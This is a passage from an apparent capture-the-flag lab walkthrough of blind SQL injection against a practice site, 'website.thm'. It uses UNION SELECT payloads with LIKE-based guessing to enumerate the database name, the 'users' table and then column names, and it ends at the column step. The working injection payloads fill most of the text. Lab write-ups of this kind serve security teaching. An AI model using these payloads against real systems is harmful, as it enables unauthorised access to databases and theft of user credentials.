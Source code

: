 ```
https://website.thm/checkuser?username=mohamed' UNION SELECT 1,2,3 where database() like 'sa%';--
```


<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/7202baed-890c-4c91-ac7a-caf11a1f9dd7 " >
</p>


taken equal ***false***! This mean that second char isn't ```a``` . we guess to find the name of database is ```sqli_three```


```
https://website.thm/checkuser?username=mohamed' UNION SELECT 1,2,3 where database() like 'sqli_three';--
```

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/fc5e6850-deee-447b-a3fb-51cc723c35ef " >
</p>

WOOW! Now We know name of the database 
the next step we want to know username and password let's gooo;

we try this payload:

```
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--
```

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/a8893425-e324-4a00-b866-fb84dbf09cba " >
</p>

we guessed first char in username ***a*** isn't correct , we will guess even know the name of table 

we try more guessed and know that name of table is users;

we try this payload:

```
https://website.thm/checkuser?username=mohamed' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'users';--
```

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/150bf9f7-1ffb-48d3-a462-dbbd50eef952 " >
</p>

Woow , Now we know name of table and we want to know name of column 

we guessed by this payload:

```
https://website.thm/checkuser?username=mohamed' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';
```
